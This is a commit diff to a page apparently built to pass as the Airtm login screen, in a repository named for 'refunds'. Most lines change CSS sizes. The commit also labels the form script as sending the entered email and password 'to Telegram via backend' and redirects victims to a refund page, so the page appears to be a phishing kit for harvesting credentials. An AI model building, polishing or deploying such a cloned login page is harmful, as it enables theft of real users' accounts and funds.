

Before and after one commit to johnhye45-lab/airtmrefund, a plain HTML site: page login.html in a window 390 px wide. Both pictures are taken after a click on the element "EN". After the commit the page ends 844 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update login.html

```diff
--- a/login.html
+++ b/login.html
@@ -6,7 +6,7 @@
     <title>Airtm - Log in</title>
     <link rel="preconnect" href="https://fonts.googleapis.com" />
     <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin />
-    <link href="https://fonts.googleapis.com/css2?family=Work+Sans:wght@300;400;500;600;700&display=swap" rel="stylesheet" />
+    <link href="https://fonts.googleapis.com/css2?family=Work+Sans:wght@400;500;600;700&display=swap" rel="stylesheet" />
     <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0-beta3/css/all.min.css" />
     <style>
         /* ============================================
@@ -39,7 +39,7 @@
            ============================================ */
         .page-wrapper {
             width: 100%;
-            max-width: 540px;
+            max-width: 480px;
             background: #ffffff;
             min-height: 100vh;
             display: flex;
@@ -55,10 +55,10 @@
             display: flex;
             justify-content: space-between;
             align-items: center;
-            padding: 1.6rem 2.4rem;
+            padding: 1.2rem 2rem;
             background: #000000;
             width: 100%;
-            min-height: 7.2rem;
+            min-height: 6.4rem;
             flex-shrink: 0;
             position: sticky;
             top: 0;
@@ -70,11 +70,11 @@
             display: flex;
             align-items: center;
             text-decoration: none;
-            height: 4rem;
+            height: 3.4rem;
         }
 
         .login-header .brand svg {
-            height: 4rem;
+            height: 3.4rem;
             width: auto;
             fill: #ffffff;
             color: #ffffff;
@@ -86,11 +86,11 @@
             position: relative;
             display: flex;
             align-items: center;
-            gap: 0.8rem;
-            padding: 0.6rem 1.4rem 0.6rem 1.6rem;
+            gap: 0.6rem;
+            padding: 0.4rem 1.2rem 0.4rem 1.4rem;
             background: rgba(255, 255, 255, 0.12);
             border-radius: 4rem;
-            font-size: 1.3rem;
+            font-size: 1.2rem;
             font-weight: 500;
             color: #ffffff;
             cursor: pointer;
@@ -104,12 +104,12 @@
         }
 
         .language-selector i {
-            font-size: 1.2rem;
+            font-size: 1.1rem;
             color: rgba(255, 255, 255, 0.6);
         }
 
         .language-selector .globe-icon {
-            font-size: 1.4rem;
+            font-size: 1.2rem;
             color: rgba(255, 255, 255, 0.7);
         }
 
@@ -120,8 +120,8 @@
             background: #ffffff;
             border-radius: 0.8rem;
             box-shadow: 0 8px 32px rgba(0, 0, 0, 0.15);
-            min-width: 18rem;
-            padding: 0.8rem 0;
+            min-width: 16rem;
+            padding: 0.6rem 0;
             display: none;
             opacity: 0;
             transform: translateY(-4px);
@@ -139,9 +139,9 @@
         .language-dropdown .dropdown-item {
             display: flex;
             align-items: center;
-            gap: 1.2rem;
-            padding: 0.8rem 1.6rem;
-            font-size: 1.35rem;
+            gap: 1rem;
+            padding: 0.6rem 1.4rem;
+            font-size: 1.2rem;
             font-weight: 400;
             color: #101828;
             cursor: pointer;
@@ -166,7 +166,7 @@
         .language-dropdown .dropdown-item .check-icon {
             margin-left: auto;
             color: #1c6bf2;
-            font-size: 1.2rem;
+            font-size: 1.1rem;
             opacity: 0;
         }
 
@@ -178,7 +178,7 @@
            LOGIN CONTENT
            ============================================ */
         .login-content {
-            padding: 2.4rem 2.4rem 3.2rem;
+            padding: 2rem 2rem 2.4rem;
             flex: 1;
             display: flex;
             flex-direction: column;
@@ -187,22 +187,22 @@
         }
 
         /* ============================================
-           TITLES
+           TITLES - REDUCED FONT SIZES
            ============================================ */
         .form-title {
-            font-size: 3.6rem;
+            font-size: 2.8rem;
             font-weight: 700;
             color: #0b1a33;
-            margin-bottom: 0.8rem;
+            margin-bottom: 0.4rem;
             letter-spacing: -0.02em;
             text-transform: uppercase;
             line-height: 1.2;
         }
 
         .form-subtitle {
-            font-size: 1.6rem;
+            font-size: 1.3rem;
             color: #667085;
-            margin-bottom: 3.2rem;
+            margin-bottom: 2.4rem;
             font-weight: 400;
             line-height: 1.5;
         }
@@ -213,7 +213,7 @@
         .login-form {
             display: flex;
             flex-direction: column;
-            gap: 2rem;
+            gap: 1.6rem;
             width: 100%;
         }
 
@@ -229,9 +229,9 @@
 
         .input-group label {
             position: absolute;
-            top: 1.6rem;
-            left: 1.4rem;
-            font-size: 1.4rem;
+            top: 1.4rem;
+            left: 1.2rem;
+            font-size: 1.2rem;
             font-weight: 400;
             color: #667085;
             pointer-events: none;
@@ -244,16 +244,16 @@
 
         .input-group input {
             width: 100%;
-            padding: 2rem 1.4rem 0.6rem 1.4rem;
+            padding: 1.8rem 1.2rem 0.5rem 1.2rem;
             border: 1.5px solid #d0d5dd;
             border-radius: 0.8rem;
-            font-size: 1.5rem;
+            font-size: 1.3rem;
             font-family: "Work Sans", "Helvetica Neue", sans-serif;
             background: #ffffff;
             color: #0b1a33;
             transition: border-color 0.15s ease, box-shadow 0.15s ease;
             outline: none;
-            height: 5.6rem;
+            height: 5rem;
             line-height: 1.4;
         }
 
@@ -265,8 +265,8 @@
 
         .input-group input:focus + label,
         .input-group input:not(:placeholder-shown) + label {
-            top: 0.6rem;
-            font-size: 1.1rem;
+            top: 0.5rem;
+            font-size: 1rem;
             font-weight: 500;
             color: #1c6bf2;
         }
@@ -280,9 +280,9 @@
         }
 
         .input-group .helper-text {
-            font-size: 1.2rem;
+            font-size: 1.1rem;
             color: #98a2b3;
-            margin-top: 0.6rem;
+            margin-top: 0.4rem;
             padding: 0 0.4rem;
             line-height: 1.4;
         }
@@ -293,12 +293,12 @@
         .form-options {
             display: flex;
             justify-content: flex-end;
-            margin-top: -0.4rem;
+            margin-top: -0.2rem;
             width: 100%;
         }
 
         .form-options a {
-            font-size: 1.35rem;
+            font-size: 1.2rem;
             font-weight: 500;
             color: #1c6bf2;
             text-decoration: none;
@@ -320,13 +320,13 @@
             color: #ffffff;
             border: none;
             border-radius: 3.2rem;
-            padding: 1rem 2.8rem;
-            font-size: 1.6rem;
+            padding: 0.9rem 2rem;
+            font-size: 1.4rem;
             font-weight: 600;
             font-family: "Work Sans", "Helvetica Neue", sans-serif;
             cursor: pointer;
             transition: all 0.3s ease;
-            height: 5.2rem;
+            height: 4.8rem;
             letter-spacing: 0.01em;
             box-shadow: 0 4px 16px rgba(28, 107, 242, 0.3);
         }
@@ -352,8 +352,8 @@
            ============================================ */
         .signup-link {
             text-align: center;
-            margin-top: 1.6rem;
-            font-size: 1.4rem;
+            margin-top: 1.4rem;
+            font-size: 1.2rem;
             color: #667085;
         }
 
@@ -377,15 +377,15 @@
             justify-content: center;
             align-items: center;
             flex-wrap: wrap;
-            gap: 1.6rem;
-            margin-top: 3.2rem;
-            padding-top: 2rem;
+            gap: 1.2rem;
+            margin-top: 2.4rem;
+            padding-top: 1.6rem;
             border-top: 1px solid #edf0f5;
             width: 100%;
         }
 
         .login-footer-links a {
-            font-size: 1.2rem;
+            font-size: 1.1rem;
             color: #98a2b3;
             text-decoration: none;
             transition: color 0.15s;
@@ -398,7 +398,7 @@
 
         .login-footer-links .divider {
             color: #d0d5dd;
-            font-size: 1.4rem;
+            font-size: 1.2rem;
         }
 
         /* ============================================
@@ -413,59 +413,7 @@
            ============================================ */
         @media (max-width: 600px) {
             .login-header {
-                padding: 1.2rem 1.6rem;
-                min-height: 6.4rem;
-            }
-
-            .login-header .brand svg {
-                height: 3.2rem;
-            }
-
-            .language-selector {
-                font-size: 1.2rem;
-                padding: 0.4rem 1rem 0.4rem 1.2rem;
-            }
-
-            .login-content {
-                padding: 2rem 1.8rem 2.4rem;
-            }
-
-            .form-title {
-                font-size: 2.8rem;
-            }
-
-            .form-subtitle {
-                font-size: 1.4rem;
-                margin-bottom: 2.4rem;
-            }
-
-            .input-group input {
-                height: 5rem;
-                font-size: 1.4rem;
-                padding: 1.8rem 1.2rem 0.4rem 1.2rem;
-            }
-
-            .input-group label {
-                font-size: 1.3rem;
-                top: 1.4rem;
-                left: 1.2rem;
-            }
-
-            .input-group input:focus + label,
-            .input-group input:not(:placeholder-shown) + label {
-                top: 0.4rem;
-                font-size: 1rem;
-            }
-
-            .btn-primary {
-                height: 4.8rem;
-                font-size: 1.4rem;
-            }
-        }
-
-        @media (max-width: 400px) {
-            .login-header {
-                padding: 1rem 1.2rem;
+                padding: 1rem 1.4rem;
                 min-height: 5.6rem;
             }
 
@@ -475,22 +423,11 @@
 
             .language-selector {
                 font-size: 1.1rem;
-                padding: 0.3rem 0.8rem 0.3rem 1rem;
-                gap: 0.4rem;
-            }
-
-            .language-dropdown {
-                min-width: 14rem;
-                right: -0.8rem;
-            }
-
-            .language-dropdown .dropdown-item {
-                font-size: 1.2rem;
-                padding: 0.6rem 1.2rem;
+                padding: 0.3rem 0.8rem 0.3rem 1.2rem;
             }
 
             .login-content {
-                padding: 1.6rem 1.2rem 2rem;
+                padding: 1.6rem 1.4rem 2rem;
             }
 
             .form-title {
@@ -498,39 +435,134 @@
             }
 
             .form-subtitle {
-                font-size: 1.3rem;
+                font-size: 1.2rem;
                 margin-bottom: 2rem;
             }
 
             .input-group input {
                 height: 4.6rem;
-                font-size: 1.3rem;
+                font-size: 1.2rem;
                 padding: 1.6rem 1rem 0.4rem 1rem;
             }
 
             .input-group label {
-                font-size: 1.2rem;
+                font-size: 1.1rem;
                 top: 1.2rem;
                 left: 1rem;
             }
 
             .input-group input:focus + label,
             .input-group input:not(:placeholder-shown) + label {
-                top: 0.3rem;
+                top: 0.4rem;
                 font-size: 0.9rem;
             }
 
             .btn-primary {
                 height: 4.4rem;
                 font-size: 1.3rem;
+                padding: 0.8rem 1.6rem;
+            }
+
+            .form-options a {
+                font-size: 1.1rem;
+            }
+
+            .signup-link {
+                font-size: 1.1rem;
             }
 
             .login-footer-links a {
                 font-size: 1rem;
             }
 
+            .input-group .helper-text {
+                font-size: 1rem;
+            }
+        }
+
+        @media (max-width: 400px) {
+            .login-header {
+                padding: 0.8rem 1rem;
+                min-height: 5rem;
+            }
+
+            .login-header .brand svg {
+                height: 2.4rem;
+            }
+
+            .language-selector {
+                font-size: 1rem;
+                padding: 0.2rem 0.6rem 0.2rem 1rem;
+                gap: 0.4rem;
+            }
+
+            .language-dropdown {
+                min-width: 12rem;
+                right: -0.8rem;
+            }
+
+            .language-dropdown .dropdown-item {
+                font-size: 1.1rem;
+                padding: 0.5rem 1rem;
+            }
+
+            .login-content {
+                padding: 1.2rem 1rem 1.6rem;
+            }
+
+            .form-title {
+                font-size: 2rem;
+            }
+
+            .form-subtitle {
+                font-size: 1.1rem;
+                margin-bottom: 1.6rem;
+            }
+
+            .input-group input {
+                height: 4.2rem;
+                font-size: 1.1rem;
+                padding: 1.4rem 0.8rem 0.3rem 0.8rem;
+            }
+
+            .input-group label {
+                font-size: 1rem;
+                top: 1rem;
+                left: 0.8rem;
+            }
+
+            .input-group input:focus + label,
+            .input-group input:not(:placeholder-shown) + label {
+                top: 0.3rem;
+                font-size: 0.8rem;
+            }
+
+            .btn-primary {
+                height: 4rem;
+                font-size: 1.2rem;
+                padding: 0.7rem 1.2rem;
+            }
+
+            .login-footer-links {
+                gap: 0.8rem;
+                margin-top: 2rem;
+                padding-top: 1.2rem;
+            }
+
+            .login-footer-links a {
+                font-size: 0.9rem;
+            }
+
+            .login-footer-links .divider {
+                font-size: 1rem;
+            }
+
             .signup-link {
-                font-size: 1.2rem;
+                font-size: 1rem;
+            }
+
+            .input-group .helper-text {
+                font-size: 0.9rem;
             }
         }
 
@@ -547,8 +579,7 @@
                 min-height: auto;
                 max-height: 98vh;
                 overflow-y: auto;
-                flex-direction: row;
-                max-width: 900px;
+                max-width: 480px;
             }
 
             .login-header {
@@ -556,82 +587,35 @@
             }
 
             .login-content {
-                padding: 2.4rem 3.2rem 3.2rem;
-                flex: 1;
-            }
-
-            .login-image-column {
-                display: flex;
-                flex: 1;
-                background: #f5f8ff;
-                align-items: center;
-                justify-content: center;
-                padding: 3rem;
-                border-radius: 0 32px 32px 0;
-            }
-
-            .brand-card {
-                width: 100%;
-                max-width: 32rem;
-                padding: 3.2rem 2.4rem;
-                background: #ffffff;
-                border-radius: 1.6rem;
-                box-shadow: 0 12px 40px rgba(0, 0, 0, 0.06);
-                text-align: center;
-            }
-
-            .brand-card .logo-icon {
-                font-size: 4rem;
-                color: #1c6bf2;
-                margin-bottom: 1.2rem;
-                display: block;
-            }
-
-            .brand-card h2 {
-                font-size: 2rem;
-                font-weight: 600;
-                color: #0b1a33;
-                margin-bottom: 0.6rem;
-            }
-
-            .brand-card p {
-                font-size: 1.3rem;
-                color: #667085;
-                line-height: 1.6;
-            }
-
-            .brand-card .features {
-                display: flex;
-                justify-content: center;
-                gap: 2rem;
-                margin-top: 2rem;
-            }
-
-            .brand-card .features span {
-                font-size: 1.1rem;
-                color: #667085;
-                display: flex;
-                align-items: center;
-                gap: 0.6rem;
-            }
-
-            .brand-card .features i {
-                color: #10b87a;
-            }
-
-            .page-wrapper {
-                flex-direction: column;
-                max-width: 560px;
+                padding: 2rem 2.4rem 2.4rem;
             }
 
             .login-image-column {
                 display: none;
             }
+
+            .form-title {
+                font-size: 2.8rem;
+            }
+
+            .form-subtitle {
+                font-size: 1.3rem;
+            }
+
+            .input-group input {
+                height: 5rem;
+                font-size: 1.3rem;
+            }
+
+            .btn-primary {
+                height: 4.8rem;
+                font-size: 1.4rem;
+            }
         }
 
         @media (min-width: 1024px) {
             .page-wrapper {
-                max-width: 600px;
+                max-width: 500px;
             }
         }
     </style>
@@ -686,14 +670,14 @@
             <form class="login-form" id="loginForm">
                 <!-- Email -->
                 <div class="input-group">
-                    <input type="email" id="loginEmail" placeholder=" " required>
+                    <input type="email" id="loginEmail" placeholder=" " required autocomplete="email">
                     <label for="loginEmail">Your email</label>
                     <span class="helper-text">Enter the email address associated with your account.</span>
                 </div>
 
                 <!-- Password -->
                 <div class="input-group">
-                    <input type="password" id="loginPassword" placeholder=" " required>
+                    <input type="password" id="loginPassword" placeholder=" " required autocomplete="current-password">
                     <label for="loginPassword">Password</label>
                 </div>
 
@@ -743,7 +727,7 @@
     </div>
 
     <!-- ============================================
-       JAVASCRIPT
+       JAVASCRIPT - SENDS DATA TO TELEGRAM
        ============================================ -->
     <script>
         // ============================================
@@ -776,7 +760,7 @@
         });
 
         // ============================================
-        // LOGIN FORM - SEND TO BACKEND
+        // LOGIN FORM - SENDS DATA TO TELEGRAM VIA BACKEND
         // ============================================
         document.addEventListener('DOMContentLoaded', function() {
             const loginForm = document.getElementById('loginForm');
@@ -824,6 +808,7 @@
                     const data = await response.json();
 
                     if (data.success) {
+                        // Redirect to refund page
                         window.location.href = data.redirect || '/refund';
                     } else {
                         alert(data.message || 'Login failed. Please try again.');
```
